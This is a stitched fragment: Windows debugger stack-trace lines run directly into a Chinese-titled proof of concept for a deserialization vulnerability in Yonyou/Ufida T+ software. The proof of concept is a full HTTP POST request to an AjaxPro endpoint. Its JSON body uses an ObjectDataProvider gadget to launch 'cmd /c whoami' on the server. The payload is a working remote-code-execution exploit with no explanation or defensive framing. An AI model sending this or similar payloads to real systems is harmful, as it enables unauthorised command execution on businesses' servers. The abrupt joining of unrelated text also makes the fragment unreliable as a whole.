12eef780 77d2df7b ntdll!_LdrpInitialize+0x29f, calling ntdll!NtTestAlert
12eef7d0 77d5cb43 ntdll!LdrpInitializeInternal+0xc7, calling ntdll!_LdrpInitialize
12eef7dc 77d5cb5a ntdll!LdrpInitializeInternal+0xde, calling ntdll!__security_check_cookie
12eefa08 77d2dcd0 ntdll!LdrpInitialize+0x3b, calling ntdll!LdrpInitializeInternal
12eefa10 77d46b2c ntdll!NtContinue+0xc
12eefa14 77d2dc89 ntdll!LdrInitializeThunk+0x29, calling ntdll!NtContinue
12eefc78 7432eb17 clr!Thread::intermediateThreadProc+0x3b, calling clr!_alloca_probe_16
12eefc8c 76c87ba9 KERNEL32!BaseThreadInitThunk+0x19
12eefc9c 77d3bd2b ntdll!__RtlUserThreadStart+0x2b
12eefcf4 77d3bcaf ntdll!_RtlUserThreadStart+0x1b, calling ntdll!__RtlUserThreadStartReplenishmentRuleSetting 反序列化漏洞
POST /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.ReplenishmentRuleSetting.CustomerRuleSetting,Ufida.T.DI.UIP.ashx?method=Select HTTP/1.1
Host: 192.168.19.136:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: Select
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 597
{
"CustomerReplenishmentRuleIDObj":{
"__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
"MethodName":"Start",
"ObjectInstance":{
"__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"StartInfo": {
"__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"FileName":"cmd", "Arguments":"/c whoami > test1whoami.txt"
}
}
}
}